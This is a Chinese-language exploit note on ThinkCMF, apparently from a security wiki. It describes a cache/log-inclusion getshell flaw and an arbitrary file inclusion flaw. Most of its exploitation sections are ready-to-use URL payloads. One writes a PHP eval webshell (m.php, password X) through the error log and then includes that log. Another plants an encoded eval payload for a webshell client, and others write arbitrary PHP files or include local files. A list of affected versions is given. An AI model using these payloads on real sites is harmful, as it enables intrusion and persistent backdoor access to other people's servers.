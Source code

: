 ```yaml
---
title: ThinkCMF
---
```


## 应用简介

ThinkCMF是基于ThinkPHP框架开发的内容管理系统

## ThinkCMF缓存Getshell漏洞

**漏洞概述**

```http
#影响范围
```

由于thinkcmf2.x使用了thinkphp3.x作为开发框架，默认情况下启用了报错日志并且开启了模板缓存，导致可以使用加载一个不存在的模板来将生成一句话的PHP代码写入data/runtime/Logs/Portal目录下的日志文件中，再次包含该日志文件即可在网站根目录下生成一句话木马m.php

日志文件格式为YY_MM_DD.log，如当前日期为2019年12月12日，日志文件为19_12_12.log，完整路径为

```
data/runtime/Logs/Portal/19_12_12.log
```

**漏洞利用**

Payload1：

首先访问

```http
http://target.domain/?a=display&templateFile=%3C?php%20file_put_contents(%27m.php%27,%27%3C%3fphp+eval($_POST[%22X%22])%3b%3F%3E%27);die();?%3E
```

然后请求

```http
http://target.domain/?a=display&templateFile=data/runtime/Logs/Portal/YY_MM_DD.log
```

```
即可在
http://xxx.com/根目录生成m.php，密码是X
```

Payload2:

首先访问

```http
http://target.domain/?a=display&templateFile=%3C%3F%70%68%70%20%65%76%61%6C%28%24%5F%50%4F%53%54%5BX%5D%29%3B%3F%3E
```

然后菜刀连接

```http
http://target.domain/?a=display&templateFile=data/runtime/Logs/Portal/YY_MM_DD.log
```

密码同样是X

## ThinkCMF框架任意文件包含

**影响版本**

```http
ThinkCMF X1.6.0 
ThinkCMF X2.1.0
ThinkCMF X2.2.0 
ThinkCMF X2.2.1 
ThinkCMF X2.2.2 
ThinkCMF X2.2.3  
```

**漏洞利用**

第一种： 
通过构造a参数的fetch方法，可以不需要知道文件路径就可以把php代码写入文件phpinfo版payload  

```
?a=fetch&templateFile=public/index&prefix=''&content=<php>file_put_contents('test.php','<?php phpinfo(); ?>')</php>
```

第二种： 
通过构造a参数的display方法，实现任意文件包含漏洞

```
?a=display&templateFile=README.md
```
